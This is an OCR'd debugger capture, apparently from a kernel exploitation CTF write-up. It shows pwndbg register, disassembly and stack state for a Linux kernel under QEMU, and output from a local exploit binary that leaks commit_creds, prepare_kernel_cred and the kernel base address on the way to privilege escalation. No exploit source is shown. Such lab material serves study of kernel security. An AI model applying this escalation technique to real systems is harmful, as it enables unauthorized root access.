 ```bash
 RBX  0xffffffffa2810480 ◂— 0x80000000
 RCX  0x0
 RDX  0x0
 RDI  0x0
 RSI  0x0
 R8   0xffff8f250641bf20 —▸ 0xffffb0f380647960 ◂— 1
 R9   0x0
 R10  0x0
 R11  0x32e
 R12  0xffffffffa2810480 ◂— 0x80000000
 R13  0xffffffffa2810480 ◂— 0x80000000
 R14  0x0
 R15  0x0
 RBP  0x0
 RSP  0xffffffffa2803eb8 —▸ 0xffffffffa16b65a0 ◂— 0xff894cf6894c9feb
 RIP  0xffffffffa1e6e7d2 ◂— ret     /* 0x1f0f2e66001f0fc3 */
───────────────────────────────────────[ DISASM ]────────────────────────────────────────
 ► 0xffffffffa1e6e7d2    ret    <0xffffffffa16b65a0>
    ↓
   0xffffffffa16b65a0    jmp    0xffffffffa16b6541
    ↓
   0xffffffffa16b6541    or     byte ptr ds:[r12 + 2], 0x20
   0xffffffffa16b6548    pushfq
   0xffffffffa16b6549    pop    rax
   0xffffffffa16b654a    test   ah, 2
   0xffffffffa16b654d    je     0xffffffffa16b65e5

   0xffffffffa16b6553    call   0xffffffffa16d4720

   0xffffffffa16b6558    call   0xffffffffa16b6430

   0xffffffffa16b655d    mov    rax, qword ptr [rbx]
   0xffffffffa16b6560    test   al, 8
────────────────────────────────────────[ STACK ]────────────────────────────────────────
00:0000│ rsp  0xffffffffa2803eb8 —▸ 0xffffffffa16b65a0 ◂— 0xff894cf6894c9feb
01:0008│      0xffffffffa2803ec0 ◂— 0xc2
02:0010│      0xffffffffa2803ec8 —▸ 0xffffffffa2cc4900 ◂— 0xcccccccccccccccc
03:0018│      0xffffffffa2803ed0 —▸ 0xffff8f2506688900 ◂— jb     0xffff8f2506688971 /* 0x65642f3d746f6f72; 'root=/dev/ram' */
04:0020│      0xffffffffa2803ed8 —▸ 0xffffffffa2ccc2c0 ◂— 0xcccccccccccccccc
05:0028│      0xffffffffa2803ee0 ◂— 0x0
... ↓
07:0038│      0xffffffffa2803ef0 —▸ 0xffffffffa16b673a ◂— jmp    0xffffffffa16b6735 /* 0x564190909090f9eb */
pwndbg> c
Continuing.
......
......


// qemu 内
/ # /tmp/exploit
[*]status has been saved.
commit_creds addr: 0xffffffffa169c8e0
vmlinux_base addr: 0xffffffffa1600000
prepare_kernel_cred addr: 0xffffffffa169cce0
[*]set off to 64
[*]read to buf.
......
......

// qemu 外
pwndbg> c
```